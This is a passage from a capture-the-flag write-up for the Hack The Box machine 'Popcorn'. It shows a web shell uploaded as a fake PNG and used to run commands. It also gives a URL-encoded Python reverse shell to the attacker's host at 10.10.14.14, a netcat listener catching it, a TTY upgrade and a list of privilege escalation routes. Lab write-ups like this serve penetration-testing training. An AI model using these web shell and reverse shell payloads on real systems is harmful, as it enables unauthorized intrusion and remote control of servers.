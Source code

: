 ```
Submit Screenshot
-----------------------------18750189121695846243797441454--
```
With our shell uploaded we can execute command with the following GET request:

```
http://10.10.10.6/torrent/upload/9d20536552c00a9e4b3a2b0ae82332ca088d6b12.php?cmd=id


‰PNG  uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits in our privesc may require a full TTY to work. Trust me, I have learned this the hard way.

Through our webshell, we can execute a Python reverse shell to get a proper interactive shell on the box.

```
http://10.10.10.6/torrent/upload/9d20536552c00a9e4b3a2b0ae82332ca088d6b12.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.14%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
And catch our incomming shell.

```
root@kali:~/htb/popcorn# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.6: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 50815
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can then further spawn a TTY using python again

```
$ python -c "import pty;pty.spawn('/bin/bash')"  

www-data@popcorn:/var/www/torrent/upload$ 
```

## Privilege Escalation

A typical Linux privilege Escalation is based on one of the follwing:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits
